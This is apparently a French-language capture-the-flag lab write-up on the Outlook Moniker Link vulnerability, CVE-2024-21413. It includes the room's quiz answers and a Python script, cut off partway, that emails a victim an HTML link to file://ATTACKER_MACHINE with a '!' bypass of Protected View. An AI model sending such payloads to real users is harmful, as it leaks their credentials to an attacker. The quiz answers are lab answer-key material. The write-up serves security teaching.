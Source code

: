 Le protocole `file://` permet de charger un fichier comme s'il provenait d'une ressource réseau. Normalement, le mode "Protected View" d'Outlook détecte et bloque ce type de tentative.

**Contournement du mode protégé**

La CVE-2024-21413 exploite une faiblesse dans la détection du mode protégé. En ajoutant un caractère spécial, il est possible de contourner la protection :

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

L'ajout du point d'exclamation (`!`) permet de bypasser le "Protected View" d'Outlook, rendant l'attaque possible.

---

**What Moniker Link type do we use in the hyperlink?**

Le protocole utilisé pour charger des fichiers depuis un partage réseau est `file://`.

**Réponse :** `file://`

**What is the special character used to bypass Outlook's "Protected View"?**

Le caractère spécial qui permet de contourner la protection est le point d'exclamation.

**Réponse :** `!`

### Task 3 - Exploitation

**Script d'exploitation**

Le chercheur [CMNatic](https://github.com/CMNatic/CVE-2024-21413) a développé un script Python pour exploiter cette vulnérabilité :

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm'
receiver_email = 'victim@monikerlink.thm'
password = input("Enter your attacker email password: ")

html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()

try:
    server.login(sender_email, password)
```
